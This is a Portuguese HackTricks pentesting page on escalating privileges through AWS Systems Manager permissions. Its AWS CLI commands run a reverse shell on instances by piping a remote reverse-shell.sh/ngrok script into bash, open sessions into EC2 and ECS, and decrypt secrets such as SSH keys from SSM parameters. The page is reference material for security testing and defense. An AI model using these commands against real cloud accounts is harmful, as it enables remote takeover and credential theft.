 # AWS - SSM Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## SSM

Para mais informações sobre SSM, verifique:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Um invasor com a permissão **`ssm:SendCommand`** pode **executar comandos em instâncias** em execução no Amazon SSM Agent e **comprometer a função IAM** em execução dentro dela.

```bash
# Verifique as instâncias configuradas
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Envie o comando de shell reverso
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# Se você estiver na máquina, poderá capturar o shell reverso dentro dela
nc -lvnp 4444 #Dentro da instância EC2
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Impacto potencial:** Privesc direto para as funções IAM EC2 anexadas às instâncias em execução com SSM Agents em execução.

### `ssm:StartSession`

Um invasor com a permissão **`ssm:StartSession`** pode **iniciar uma sessão semelhante ao SSH em instâncias** em execução no Amazon SSM Agent e **comprometer a função IAM** em execução dentro dela.

```bash
# Verifique as instâncias configuradas
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Envie o comando de shell reverso
aws ssm start-session --target "$INSTANCE_ID"
```

**Impacto potencial:** Privesc direto para as funções IAM EC2 anexadas às instâncias em execução com SSM Agents em execução.

#### Privesc para ECS

Quando as **tarefas ECS** são executadas com **`ExecuteCommand` habilitado**, usuários com permissões suficientes podem usar `ecs execute-command` para **executar um comando** dentro do contêiner.\
De acordo com [**a documentação**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), isso é feito criando um canal seguro entre o dispositivo que você usa para iniciar o comando “_exec_” e o contêiner de destino com o SSM Session Manager.\
Portanto, usuários com `ssm:StartSession` poderão **obter um shell dentro das tarefas ECS** com essa opção habilitada apenas executando:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Impacto potencial:** Privesc direto para as funções IAM `ECS` anexadas às tarefas em execução com `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Um invasor com a permissão **`ssm:ResumeSession`** pode re-**iniciar uma sessão semelhante ao SSH em instâncias** em execução no Amazon SSM Agent com um estado de sessão SSM **desconectado** e **comprometer a função IAM** em execução dentro dela.

```bash
# Verifique as instâncias configuradas
aws ssm describe-sessions

# Obtenha os dados de retomada (você provavelmente precisará fazer algo mais com essas informações para se conectar)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Impacto potencial:** Privesc direto para as funções IAM EC2 anexadas às instâncias em execução com SSM Agents em execução e sessões desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Um invasor com as permissões mencionadas poderá listar os **parâmetros SSM** e lê-los em texto claro. Nestes parâmetros, você pode frequentemente **encontrar informações sensíveis** como chaves SSH ou chaves API.

```bash
aws ssm describe-parameters
# Suponha que você encontrou um parâmetro chamado "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Impacto potencial:** Encontre informações sensíveis dentro dos parâmetros.

### `ssm:ListCommands`

Um invasor com essa permissão pode listar todos os **comandos** enviados e, esperançosamente, encontrar **informações sensíveis** neles.

```
aws ssm list-commands
```

**Impacto potencial:** Encontre informações sensíveis dentro das linhas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Um invasor com essas permissões pode listar todos os **comandos** enviados e **ler a saída** gerada, esperançosamente encontrando **informações sensíveis** nela.

```bash
# Você pode usar qualquer uma das duas opções para obter o ID do comando e o ID da instância
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Impacto potencial:** Encontre informações sensíveis dentro da saída das linhas de comando.

### Codebuild

Você também pode usar o SSM para entrar em um projeto codebuild em construção:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>